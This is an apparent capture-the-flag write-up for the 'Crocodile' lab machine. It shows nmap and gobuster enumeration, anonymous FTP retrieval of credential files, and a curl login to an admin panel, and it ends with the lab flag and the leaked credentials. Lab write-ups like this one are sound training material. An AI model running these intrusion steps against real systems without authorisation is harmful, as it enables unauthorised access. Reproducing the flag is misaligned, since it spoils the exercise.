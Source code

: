 # Crocodile Write-up
**Prepared by:** keyfive5

## Introduction
Tier I boxes often chain simple misconfigurations across services. Crocodile walks us through leaking credentials via anonymous FTP and using them to access a hidden web admin panel.

## Enumeration
1. **Nmap Scan**  
   ```bash
   nmap -sC -sV -p21,80 <TARGET_IP>
   ```
   Discovered:
   - `21/tcp open ftp vsftpd 3.0.3`
   - `80/tcp open http Apache httpd 2.4.41`

2. **Anonymous FTP**  
   ```bash
   ftp <TARGET_IP>
   # login: anonymous
   dir
   get allowed.userlist
   get allowed.userlist.passwd
   ```
   Retrieved two files containing usernames and passwords.

## Foothold & Exploitation
1. **Extract Credentials**  
   ```bash
   cat allowed.userlist
   # aron, pwnmeow, egotisticalsw, admin
   cat allowed.userlist.passwd
   # root / Supersecretpassword1 / @BaASD&9032123sADS / rKXM59ESxesUFHAd
   ```
   Matched `admin / Supersecretpassword1` as valid credentials.

2. **Directory Busting**  
   ```bash
   gobuster dir      --url http://<TARGET_IP>/      --wordlist /usr/share/wordlists/dirb/common.txt      -x php,html
   ```
   Found `/login.php`.

3. **Admin Login & Flag**  
   ```bash
   curl -d "username=admin&password=Supersecretpassword1"         http://<TARGET_IP>/login.php -o admin.html
   ```
   The resulting admin panel displays the flag at the top.

## Flag
```
7b4bec00d1a39e3dd4e021ec3d915da8
```

## Lessons Learned
- Always check anonymous services for credential leaks.  
- Combine leaked creds with web enumeration to fully chain exploits.  
- Automate repeatable tasks with scripts for efficiency.
